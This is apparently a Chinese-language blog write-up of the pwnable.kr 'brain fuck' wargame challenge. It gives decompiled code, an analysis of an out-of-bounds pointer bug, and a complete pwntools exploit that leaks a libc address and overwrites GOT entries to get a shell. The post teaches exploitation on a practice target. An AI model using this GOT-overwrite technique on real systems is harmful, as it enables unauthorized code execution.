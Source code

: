 ```yaml
---
layout: post
title: "Rookiss Writeup [pwnable.kr]"
tags: [pwn, security]
---
```


（PS：文章内容会随着做题进度进行更新）

### [brain fuck]

> I made a simple brain-fuck language emulation program written in C. <br>
> The [ ] commands are not implemented yet. However the rest functionality seems working fine. <br>
> Find a bug and exploit it to get a shell. 
>
> Download : http://pwnable.kr/bin/bf<br>
> Download : http://pwnable.kr/bin/bf_libc.so
>
> Running at : nc pwnable.kr 9001

`bf` 为 32 ELF 程序：

![img]({{ site.url }}/public/img/article/2015-07-25-rookiss-writeup-pwnable-kr/brain-fuck-1.png)

使用 IDA 分析，程序会让你输入一串字符（最多1024bytes）然后遍历字符进行解析：

	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  int result; // eax@4
	  int v4; // edx@4
	  size_t i; // [sp+28h] [bp-40Ch]@1
	  int v6; // [sp+2Ch] [bp-408h]@1
	  int v7; // [sp+42Ch] [bp-8h]@1
	
	  v7 = *MK_FP(__GS__, 20);
	  setvbuf(stdout, 0, 2, 0);
	  setvbuf(stdin, 0, 1, 0);
	  p = (int)&tape;
	  puts("welcome to brainfuck testing system!!");
	  puts("type some brainfuck instructions except [ ]");
	  memset(&v6, 0, 0x400u);
	  fgets((char *)&v6, 1024, stdin);
	  for ( i = 0; i < strlen((const char *)&v6); ++i )
	    do_brainfuck(*((_BYTE *)&v6 + i));
	  result = 0;
	  v4 = *MK_FP(__GS__, 20) ^ v7;
	  return result;
	}
	
`do_brainfuck` 函数有一些列对指针 `p` 进行操作的分支：

	int __cdecl do_brainfuck(char a1)
	{
	  int result; // eax@1
	  int v2; // ebx@7
	
	  result = a1;
	  switch ( a1 )
	  {
	    case '>':
	      result = p++ + 1;
	      break;
	    case '<':
	      result = p-- - 1;
	      break;
	    case '+':
	      result = p;
	      ++*(_BYTE *)p;
	      break;
	    case '-':
	      result = p;
	      --*(_BYTE *)p;
	      break;
	    case '.':
	      result = putchar(*(_BYTE *)p);
	      break;
	    case ',':
	      v2 = p;
	      result = getchar();
	      *(_BYTE *)v2 = result;
	      break;
	    case '[':
	      result = puts("[ and ] not supported.");
	      break;
	    default:
	      return result;
	  }
	  return result;
	}
	
这里的指针 `p` 是一个字符型指针，每次自增或自减会使得指向的地址 `+0x1` 或 `-0x1`。根据分析可以得到如下解析说明：

	'>' ==> p++
	'<' ==> p--
	'+' ==> *p += 1
	'-' ==> *p -= 1
	'.' ==> putchar(*p)
	',' ==> *p = getchar()
	'[' ==> puts(xxxx)
	
这里既能控制指针，又能读写指针指向地址的值，并且指针 `p` 初始值为 `0x0804A0A0 (tape)`，而往低地址一点就是 `.got.plt`。因为题目提供了 libc 文件，所以这里可以通过泄漏 `.got.plt` 中的 `fgets()` 函数地址来计算目标环境的 `system()` 函数地址，然后重写 `.got.plt` 结构来使得 `fgets()` 的 GOT 变为 `system()`，`memset()` 的 GOT 变为 `gets()`，然后通过修改 `putchar()` 的 GOT 为主函数 `main()`，从而执行到 `0x08048700 - 0x08048734` 处代码的时候实际上执行的是 `system(gets())`：

	.text:08048700                 mov     dword ptr [esp+8], 400h ; n
	.text:08048708                 mov     dword ptr [esp+4], 0 ; c
	.text:08048710                 lea     eax, [esp+2Ch]
	.text:08048714                 mov     [esp], eax      ; s
	.text:08048717                 call    _memset         ; rewrite memset() to fgets()
	.text:0804871C                 mov     eax, ds:stdin@@GLIBC_2_0
	.text:08048721                 mov     [esp+8], eax    ; stream
	.text:08048725                 mov     dword ptr [esp+4], 400h ; n
	.text:0804872D                 lea     eax, [esp+2Ch]
	.text:08048731                 mov     [esp], eax      ; s
	.text:08048734                 call    _fgets          ; rewrite fgets() to system()
	.text:08048739                 mov     dword ptr [esp+28h], 0
	.text:08048741                 jmp     short loc_8048760
	
最终的 exp 如下：

	from pwn import *
	
	libc = ELF('./bf_libc.so')
	
	p = remote('pwnable.kr', 9001)
	#p = process('./bf')
	p.recvline_startswith('type')
	
	# Move the pointer to .got.plt fgets()
	payload = '<' * (0x0804A0A0 - 0x0804A010)
	# Print .got.plt fgets() address in memory each bytes
	payload += '.>' * 4
	# reMove the pointer to .got.plt fgets()
	payload += '<' * 4
	# Write .got.plt fgets() to system()
	payload += ',>' * 4
	# Move the pointer to .got.plt memset()
	payload += '>' * (0x0804A02C - 0x0804A014)
	# Write .got.plt memset() to fgets()
	payload += ',>' * 4
	# Writr .got.plt putchar() to main() 0x08048671
	payload += ',>' * 4
	# Call putchar(), actually main() called
	payload += '.'
	
	p.sendline(payload)
	
	fgets_addr = p.recvn(4)[::-1].encode('hex')
	system_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['system']
	gets_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['gets']
	
	p.send(p32(system_addr))
	p.send(p32(gets_addr))
	p.send(p32(0x08048671))
	p.sendline('/bin/sh')
	p.interactive()
	
### [md5 calculator]
